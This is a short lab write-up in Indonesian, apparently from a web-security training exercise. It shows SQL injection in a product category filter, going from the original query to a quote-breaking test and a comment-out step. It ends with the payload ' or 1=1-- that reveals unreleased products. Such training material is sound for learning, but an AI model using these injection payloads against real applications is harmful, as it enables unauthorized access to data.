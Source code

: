 Short Info:
    - SQLInjection di produk kategori filter

    - web app menggunakan queries berikut untuk display produk berdasarkan kategori
```sql 
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

End Goal: 
    -   display semua produk, baik yang sudah rilis ataupun belum.

Analisis:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

`SELECT * FROM products WHERE category = ''' AND released = 1`

`SELECT * FROM products WHERE category = 'Gifts'--   AND released = 1`

Payload:
```sql 
SELECT * FROM products WHERE category = '' or 1=1--
```
